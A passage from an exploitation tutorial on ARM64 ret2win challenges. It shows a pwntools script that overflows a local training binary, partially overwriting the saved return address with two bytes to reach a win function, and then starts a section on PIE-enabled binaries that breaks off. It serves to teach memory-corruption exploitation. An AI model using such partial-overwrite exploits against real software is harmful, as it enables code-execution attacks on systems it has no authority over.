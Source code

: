 Actually this is going to by more like a off-by-2 in the stored PC in the stack. Instead of overwriting all the return address we are going to overwrite **only the last 2 bytes** with `0x06c4`.

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../images/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

You can find another off-by-one example in ARM64 in [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/), which is a real off-by-**one** in a fictitious vulnerability.

## With PIE

> [!TIP]
> Compile the binary **without the `-no-pie` argument**

### Off-by-2

Without a leak we don't know the exact address of the winning function but we can know the offset of the function from the binary and knowing that the return address we are overwriting is already pointing to a close address, it's possible to leak the offset to the win function (**0x7d4**) in this case and just use that offset:

